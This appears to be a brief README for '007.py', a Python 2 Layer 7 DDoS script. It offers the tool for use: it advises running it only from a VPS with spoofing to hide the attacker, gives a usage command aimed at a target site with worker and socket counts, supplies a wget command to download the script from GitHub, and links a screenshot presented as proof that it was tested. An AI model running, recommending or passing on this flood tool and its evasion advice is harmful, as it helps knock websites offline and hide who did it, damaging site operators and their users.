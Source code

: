 # 007.PY (ONLY USE VPS - SPOOF) *****
Layer 7 USE: python2 007.py http://targetsite -w 120 -s 4165


----------------

# DOWNLOAD SCRİPT COMMAND:
wget https://raw.githubusercontent.com/B0RU70/007/master/007.py


# Tested Script:
![007 ddos,ddos,layer7](https://2.bp.blogspot.com/-Ufvm6a1bfyM/XABc1h2BB8I/AAAAAAAAFjQ/gaJiiaXlchwW74V9rKuNylJcQlAPffSFQCLcBGAs/s1600/Ekran%2Bg%25C3%25B6r%25C3%25BCnt%25C3%25BCs%25C3%25BC_2018-11-30_00-39-24.png)


EDİTED BY B0RU70

